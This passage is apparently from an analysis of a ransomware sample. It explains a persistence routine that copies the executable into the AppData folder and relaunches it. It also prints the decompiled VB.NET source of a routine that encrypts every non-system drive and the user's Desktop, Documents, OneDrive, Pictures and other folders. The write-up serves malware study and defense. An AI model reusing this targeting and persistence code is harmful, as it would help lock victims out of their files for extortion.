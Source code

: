     -   The condition `If friendlyName <> processName OrElse location <> text2` checks if the current name or location of the executable differs from the targeted ones.
    -   `If Not File.Exists(text2)` checks if the target executable already exists. If not, it is copied over, and a new process is started.
    -   If the file exists, it is deleted and recreated, then a new process is started from this file.
4.  **Starting a New Process**:
    
    -   `Dim processStartInfo As ProcessStartInfo = New ProcessStartInfo(text2)` creates a configuration to start a new process.
    -   `processStartInfo.WorkingDirectory = text` sets the working directory for the new process.
    -   `New Process() With { .StartInfo = processStartInfo }` creates a new process, and if the start is successful, `Environment.[Exit](1)` terminates the current process.

In summary, this subroutine attempts to copy the current executable to the user's application data folder and start a new process from there. This might be used for persistence techniques, where a software wants to ensure it remains active or restarts after a system reboot.

### lookForDirectories

Many points in this section.

```vbnet
Private Shared Sub lookForDirectories()
	For Each driveInfo As DriveInfo In DriveInfo.GetDrives()
		If driveInfo.ToString() <> "C:\" Then
			Program.encryptDirectory(driveInfo.ToString())
		End If
	Next
	Dim text As String = Program.userDir + Program.userName + "\Desktop"
	Dim text2 As String = Program.userDir + Program.userName + "\Links"
	Dim text3 As String = Program.userDir + Program.userName + "\Contacts"
	Dim text4 As String = Program.userDir + Program.userName + "\Desktop"
	Dim text5 As String = Program.userDir + Program.userName + "\Documents"
	Dim text6 As String = Program.userDir + Program.userName + "\Downloads"
	Dim text7 As String = Program.userDir + Program.userName + "\Pictures"
	Dim text8 As String = Program.userDir + Program.userName + "\Music"
	Dim text9 As String = Program.userDir + Program.userName + "\OneDrive"
	Dim text10 As String = Program.userDir + Program.userName + "\Saved Games"
	Dim text11 As String = Program.userDir + Program.userName + "\Favorites"
	Dim text12 As String = Program.userDir + Program.userName + "\Searches"
	Dim text13 As String = Program.userDir + Program.userName + "\Videos"
	Program.encryptDirectory(text)
	Program.encryptDirectory(text2)
	Program.encryptDirectory(text3)
	Program.encryptDirectory(text4)
	Program.encryptDirectory(text5)
	Program.encryptDirectory(text6)
	Program.encryptDirectory(text7)
	Program.encryptDirectory(text8)
	Program.encryptDirectory(text9)
	Program.encryptDirectory(text10)
	Program.encryptDirectory(text11)
	Program.encryptDirectory(text12)
	Program.encryptDirectory(text13)
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonDocuments))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonPictures))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonMusic))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonVideos))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonDesktopDirectory))
End Sub
```
